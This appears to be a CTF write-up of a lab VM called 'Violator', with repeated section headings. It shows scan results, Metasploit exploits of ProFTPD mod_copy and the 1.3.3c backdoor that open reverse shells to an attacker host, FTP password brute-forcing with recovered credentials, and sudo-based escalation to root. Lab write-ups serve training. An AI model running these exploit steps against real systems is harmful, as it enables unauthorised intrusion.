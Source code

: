 Violator


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Source code web page 
[+] ProFTP 1.3.5rc3 - Metasploit exploitation
[+] Privilege Escalation with SUDO right /home/dg/bd/sbin/proftpd
[+] ProFTP 1.3.3c -  Metasploit exploitation
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.101
Host is up (0.00078s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5rc3
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: I Say... I say... I say Boy! You pumpin' for oil or somethin'...?
MAC Address: 08:00:27:21:B8:54 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Unix

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Using Metasploit to gain reverse shell


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > use exploit/unix/ftp/proftpd_modcopy_exec 
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > show options 

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www         yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5


msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set rhosts 192.168.56.101
rhosts => 192.168.56.101
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] 192.168.56.101:80 - 192.168.56.101:21 - Connected to FTP server
[*] 192.168.56.101:80 - 192.168.56.101:21 - Sending copy commands to FTP server
[-] 192.168.56.101:80 - Exploit aborted due to failure: unknown: 192.168.56.101:21 - Failure copying PHP payload to website path, directory not writable?
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > set sitepath /var/www/html
sitepath => /var/www/html
msf5 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] 192.168.56.101:80 - 192.168.56.101:21 - Connected to FTP server
[*] 192.168.56.101:80 - 192.168.56.101:21 - Sending copy commands to FTP server
[*] 192.168.56.101:80 - Executing PHP payload /PRHgv.php
[*] Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:40271) at 2019-10-11 00:03:56 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@violator:/home$ ls -al
ls -al
total 24
drwxr-xr-x  6 root root 4096 Jun  6  2016 .
drwxr-xr-x 22 root root 4096 Jun 14  2016 ..
drwxr-xr-x  3 af   af   4096 Jun 12  2016 af
drwxr-xr-x  2 aw   aw   4096 Jun 12  2016 aw
drwxr-xr-x  4 dg   dg   4096 Jun 14  2016 dg
drwxr-xr-x  2 mg   mg   4096 Jun 12  2016 mg


~~~~~~~~~~~~~~~~~~~Violator




Scan Results


Using Metasploit to gain reverse shell



Bruteforcing passwords for FTP using the users found.
Password file got from wiki page in index. https://en.wikipedia.org/wiki/Violator_(album)


Getting user dg



User dg has SUDO rights to run /home/dg/bd/sbin/proftpd
Testing with netstat we see the ftp service is running on port 2121.

We first portforward the port to localhost:


The FTP server is ProFTPD 1.3.3c and this is vulnerable 

Exploitation of ProFTPd 1.3.3c
~~~~~~~~~~~~~~


Bruteforcing passwords for FTP using the users found.
Password file got from wiki page in index. https://en.wikipedia.org/wiki/Violator_(album)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[DATA] attacking ftp://192.168.56.101:21/
[21][ftp] host: 192.168.56.101   login: af   password: enjoythesilence
1 of 1 target successfully completed, 1 valid password found

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Getting user dg


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@violator:~/html$ su dg  
su dg
Password: policyoftruth

dg@violator:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for dg on violator:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dg may run the following commands on violator:
    (ALL) NOPASSWD: /home/dg/bd/sbin/proftpd
dg@violator:/var/www/html$ sudo /home/dg/bd/sbin/proftpd
sudo /home/dg/bd/sbin/proftpd
 - setting default address to 127.0.0.1
localhost - SocketBindTight in effect, ignoring DefaultServer
dg@violator:/var/www/html$ netstat -antp
netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:2121          0.0.0.0:*               LISTEN      -               
tcp        0      0 192.168.56.101:49362    192.168.56.102:4433     ESTABLISHED 1632/bash       
tcp        0      0 192.168.56.101:40272    192.168.56.102:4444     CLOSE_WAIT  -               
tcp        0      0 192.168.56.101:40277    192.168.56.102:4444     CLOSE_WAIT  -               
tcp        0      0 192.168.56.101:40270    192.168.56.102:1234     ESTABLISHED -               
tcp        0      0 192.168.56.101:40271    192.168.56.102:4444     CLOSE_WAIT  -               
tcp6       0      0 :::21                   :::*                    LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 192.168.56.101:80       192.168.56.102:46216    ESTABLISHED -               
dg@violator:/var/www/html$ telnet 127.0.0.1 2121
telnet 127.0.0.1 2121
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 ProFTPD 1.3.3c Server (Depeche Mode Violator Server) [127.0.0.1]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


User dg has SUDO rights to run /home/dg/bd/sbin/proftpd
Testing with netstat we see the ftp service is running on port 2121.

We first portforward the port to localhost:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# telnet 127.0.0.1 2121
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
220 ProFTPD 1.3.3c Server (Depeche Mode Violator Server) [127.0.0.1]

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The FTP server is ProFTPD 1.3.3c and this is vulnerable 

Exploitation of ProFTPd 1.3.3c

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
meterpreter > background 
[*] Backgrounding session 6...
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > show options 

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   127.0.0.1        yes       The target address range or CIDR identifier
   RPORT    2121             yes       The target port (TCP)


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.102   yes       The listen address (an interface may be specified)
   LPORT  12312            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit

[*] Started reverse TCP handler on 192.168.56.102:12312 
[*] 127.0.0.1:2121 - Sending Backdoor Command
[*] Command shell session 7 opened (192.168.56.102:12312 -> 192.168.56.101:46347) at 2019-10-11 01:42:42 -0400

id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
